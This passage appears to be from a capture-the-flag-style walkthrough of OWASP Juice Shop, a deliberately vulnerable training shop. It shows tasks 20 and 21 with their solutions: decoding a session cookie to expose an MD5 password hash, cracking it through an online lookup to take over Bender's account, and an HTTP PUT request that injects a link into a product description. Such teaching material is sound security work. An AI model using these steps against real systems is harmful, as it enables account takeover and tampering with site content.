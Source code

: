 ### Lessons learned
Set up a rigorous plan for roles and rights. Make the admin interface only available internally wherever possible and not accessible from the public networks.



## 20: "Change Bender's password into slurmCl4ssic."

### Solution
- Logon on as Bender (see Task 5)
- A token is stored in the cookie
- This must be Base64 decoded
- Now you can see a JSON string :

```json
{"status":"success","data":{"id":3,"email":"bender@juice-sh.op","password":"fa3360bfd5e190cb65a113c198dfa164","createdAt":"2015-09-03 05:24:11.000 +00:00","updatedAt":"2015-09-03 05:24:11.000 +00:00"}
```

The "password" field contains the user's password as an MD5 hash. A Google search for the administrator's hash takes you to md5cracker.org where you can read the password in clear text ("booze")
Using this password, the user's password can be set to slurmCl4ssic using the normal "Change password" function.


### Explanation
See Task 10

### Lessons learned
See Task 10. In addition, sensitive information such as a password should not be found in a cookie and be capable of being transferred at every request.




## 21: "Change the link in the description of the O-Saft product to http://kimminich.de."

### Solution
The task can be solved by sending the following request:

```
PUT /api/Products/9 HTTP/1.1
Host: xxxxx
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 350

{
   "id":9,
   "name":"OWASP SSL Advanced Forensic Tool(O-Saft)",
   "description":
   "<a href=\"http://kimminich.de\" target=\"_blank\">
   More...</a>",
   "price":0.01,
   "image":"owasp_osaft.jpg"
}
```
